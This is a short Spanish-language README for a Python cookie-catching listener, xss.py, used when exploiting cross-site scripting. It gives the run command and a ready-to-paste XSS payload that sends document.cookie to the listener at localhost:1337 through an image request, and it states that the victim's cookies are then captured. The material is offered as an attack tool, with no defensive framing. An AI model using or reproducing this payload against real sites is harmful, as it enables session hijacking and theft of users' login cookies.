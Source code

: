 Este script nos permite capturar las cookies cuando tratamos de explotar un XSS.

Para ello crea un puerto de escucha donde recoge las cookies capturadas en la variable steal_cookie

# USO
-----
```
Python3 xss.py
```
----

![image](https://github.com/user-attachments/assets/09a080ad-9fd4-4400-80d1-b9256b2260a5)

Ahora debemos colocar este payload en el campo vulnerable a XSS:

---
```
<script>
new Image().src = "http://localhost:1337/?stolen_cookie=" + document.cookie;
</script>
```
----

![image](https://github.com/user-attachments/assets/deac6d3f-cf61-46f9-b4ba-4ea2952e86e3)

----

Una vez realizado esto ya obtenemos las cookies del usuario.

----
